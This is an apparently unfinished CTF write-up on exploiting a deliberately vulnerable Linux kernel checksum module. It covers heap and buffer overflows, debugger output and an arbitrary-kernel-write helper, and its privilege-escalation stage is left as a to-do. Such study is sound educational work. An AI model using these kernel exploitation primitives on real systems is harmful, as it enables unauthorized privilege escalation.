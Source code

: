+++
title = 'IrisCTF 2025 - Checksumz'
date = 2025-01-14T14:14:52-03:00
tags = ['exploitation', 'linux_kernel']
+++

# Problem statement

```goat
 "Someone told me that I can write faster programs by putting them into kernel
modules, so I replaced my checksum function with a char device." 
```

We're given a nicely setup environment with a vulnerable kernel module.

Below this the main struct with holds the driver's state per file descriptor.

```c
struct checksum_buffer {
	loff_t pos;
	char state[512];
	size_t size;
	size_t read;
	char* name;
	uint32_t s1;
	uint32_t s2;
};
```

It gets initialized in the `open` handler, note the `kzalloc` and pay attention
to the size of each allocation.

SLUB is the default allocator for most Linux systems and we know that it
allocates blocks in fixed sizes and the page frames are separate[1]. So,
`kmalloc-128` is used to allocations like 100 bytes, `kmalloc-256` for 200
bytes, etc.

```c
static int checksumz_open(struct inode *inode, struct file *file) {
	file->private_data = kzalloc(sizeof(struct checksum_buffer), GFP_KERNEL);
	struct checksum_buffer* buffer = (struct checksum_buffer*) file->private_data;

    // ...

	buffer->name = kzalloc(1000, GFP_KERNEL);

    // ...

	return 0;
}
```

In this case, since the allocations are above 512 and below 1024 bytes, they'll
get allocated in `kmalloc-1024`.

# Buffer overflow

Below are the `lseek` and `write` handlers. Note that the overflow happens
because we can set the `buffer->pos` to the end of the buffer, and during the
write, it'll overflow.

```c
static loff_t checksumz_llseek(struct file *file, loff_t offset, int whence) {
	struct checksum_buffer* buffer = file->private_data;

	switch (whence) {
		case SEEK_SET:
			buffer->pos = offset;
			break;
            // ...
	}

	if (buffer->pos < 0)
		buffer->pos = 0;

	if (buffer->pos >= buffer->size) // size is 256
		buffer->pos = buffer->size - 1; // so we can set it to 255

	return buffer->pos;
}

// ...

static ssize_t checksumz_write_iter(struct kiocb *iocb, struct iov_iter *from) {
    struct checksum_buffer* buffer = iocb->ki_filp->private_data;
    size_t bytes = iov_iter_count(from);

    if (!buffer)
        return -EBADFD;
    if (!bytes)
        return 0;

    ssize_t copied = copy_from_iter(buffer->state + buffer->pos, min(bytes, 16), from); // we can start write from 255 to 255 + 16

    buffer->pos += copied;
    if (buffer->pos >= buffer->size)
        buffer->pos = buffer->size - 1;
    
    return copied;
}
```

And there is also a `read` that overflows, it leaks **256** bytes instead of **16**.

```c
static ssize_t checksumz_read_iter(struct kiocb *iocb, struct iov_iter *to) {
// ...
    ssize_t copied = copy_to_iter(buffer->state + buffer->pos, min(bytes, 256), to);
// ...
    return copied;
}
```

# hands on

Let's test our assumptions debugging the kernel with driver.
In the CTF challenge files we have symbols, so setting a breakpoint is as easy
as `b *(checksumz_write_iter+113)`.

And to trigger the breakpoint we can `open` the file descriptor and `write` to it:


```c
// ...
    int fd = open("/dev/checksumz", O_RDWR);
    ssize_t written_bytes = write(fd, &data, sizeof(data));
// ...
```

In gdb when the breakpoint is triggered, let's inspect the `checksum_buffer`:
object:

```bash
pwndbg> p/x $rbx
$5 = 0xff11000004a50800

pwndbg> p/x *((struct checksum_buffer*)$rbx)
$1 = {
  pos = 0x1ff,
  state = {0x0 <repeats 512 times>},
  size = 0x100,
  read = 0x0,
  name = 0xff11000004a51400,
  s1 = 0x1,
  s2 = 0x0
}

pwndbg> p/x ((struct checksum_buffer*)$rbx)->name-$rbx
$8 = 0xc00
pwndbg> p 0xc00/0x400
$9 = 3
```

Both heap allocations we discussed before are 1024 (0x400 in hex) aligned, i.e.
their addresses are multiples of 0x400. We can also see that both allocations
are close, just **0x400 * 3** bytes apart.

# unlocking abilities (getting a better primitive)

The first we're going to do is to override that `size` variable withthe
overflow we have in the `state` buffer, since they're next to each other we
just need to `lseek` to the end of `state` and then write a big value for `size`.

Now that we are no longer constrained by 16 bytes right after `state`, we can
also override the `name` string pointer. This is going to be very useful since
we can use the `rename` `ioctl` to write to that pointer 48 bytes.

```c
static long checksumz_ioctl(struct file *file, unsigned int command, unsigned long arg) {
	struct checksum_buffer* buffer = file->private_data;

	if (!file->private_data)
		return -EBADFD;
	
	switch (command) {
        // ...
		case CHECKSUMZ_IOCTL_RENAME:
			char __user *user_name_buf = (char __user*) arg;

			if (copy_from_user(buffer->name, user_name_buf, 48)) {
				return -EFAULT;
			}
        // ...
```


By overwriting the value in the `name` pointer and calling the `rename` `ioctl`
we have an arbitrary write anywhere in the kernel :)

```c
void arb_write(int fd, uint64_t addr, uint64_t* data) {
    lseek(fd, 0x210, addr);
    write(fd, &addr, sizeof(addr));

    if (ioctl(fd, CHECKSUMZ_IOCTL_RENAME, data) < 0) {
        perror("ioctl - CHECKSUMZ_IOCTL_RENAME");
    }
}
```

# Heap magic


Oops, the writeup for this part is in progress...

`modprobe_path`, `KASLR`, `kmalloc-1024`


# References


- [1] - https://pawnyable.cafe/linux-kernel/ 
- [2] - https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628
